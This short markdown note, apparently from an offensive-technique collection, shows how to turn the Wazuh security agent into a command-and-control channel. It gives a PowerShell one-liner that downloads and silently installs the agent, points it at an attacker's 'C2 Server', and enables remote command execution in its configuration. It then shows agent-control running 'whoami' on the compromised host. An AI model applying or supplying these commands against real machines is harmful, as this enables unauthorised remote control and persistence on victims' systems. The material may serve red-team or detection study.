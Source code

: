 ```yaml
---
title: Wazuh
tags:
  - Enum
  - Exec
  - C2
references: 
- 
files: []
---
```



**C2 Connection**
powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi; 
msiexec.exe /i ${env:tmp}\wazuh-agent-4.5.3-1.msi /q WAZUH_MANAGER='C2 Server' WAZUH_REGISTRATION_SERVER='C2 Server' WAZUH_AGENT_GROUP='1'; 
Start-Sleep -Seconds 20;
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'wazuh_command.remote_commands=1'; 
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'logcollector.remote_commands=1'; 
NET START WazuhSvc
**Execute Commmands**
once the agents connected the agent-control binary allows you to execute commands
```/var/ossec/bin/agent-control -R 'whoami'```
